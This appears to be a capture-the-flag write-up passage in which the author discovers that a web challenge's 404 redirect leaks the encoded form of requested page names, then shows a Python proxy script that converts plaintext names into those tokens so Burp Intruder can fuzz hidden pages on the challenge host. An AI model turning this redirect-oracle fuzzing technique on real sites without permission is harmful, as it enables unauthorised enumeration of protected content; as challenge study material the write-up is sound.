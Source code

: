 ```
3.93.128.89:1212/?page=contact
```

That redirected to:
```
http://3.93.128.89:1212/?page=404&from_page=lEmyEQgLGyIqPBECSmpwUTNTejF0QT09Ah2A4gs_e16qC_1LtuQlUg
```

So took the from_page= b64 string, entered that in page=

```
http://3.93.128.89:1212/?page=lEmyEQgLGyIqPBECSmpwUTNTejF0QT09Ah2A4gs_e16qC_1LtuQlUg
```

That got me to the contact page, so "contact" equals lEmyEQgLGyIqPBECSmpwUTNTejF0QT09Ah2A4gs_e16qC_1LtuQlUg, hurray.

Using that method I tried some fuzzing using a proxy script which translated clear text into the b64 strings and fetched the resulting page. It did the following:
* Offer an HTTP service and wait for requests, e.g. http://3.93.128.89:1212/?page=Register
* Send incoming request to naughty list server
* Parse the resulting Location: header to get from_page= base64
* Request the found base64 string using page= and give that page back to the initial requestor aka burp intruder

```python
#!/usr/bin/python3 -u

# mitm proxy for usage as an burp upstream proxy 
# (only handles parameterized URLs so far ...)

import requests
import http.server


base_url = 'http://3.93.128.89:1212/'


def get_page(page):
    session = requests.Session()

    # get encrypted path to where we want to got from 404 redirect
    url = base_url + "?page=" + page
    print("getting 1st URL: " + url )
    # don't follow redirects because we want to the location header:
    resp = session.get(url, allow_redirects=False)

    # check http header Location:
    location=""
    try:
        location_header=resp.headers['Location']
        location = location_header.split('from_page=')[1]
        print("loc: " + location)
    except:
        pass

    #print(resp.headers)

    # get real page
    url = base_url + "?page=" + location
    print("getting 2nd URL: " + url )
    # this time allow redirects to see error pages
    resp = session.get(url, allow_redirects=True)
    html_page=resp.text
    #print("html page: " + html_page)
    print("-----------------------------------------------------------------")

```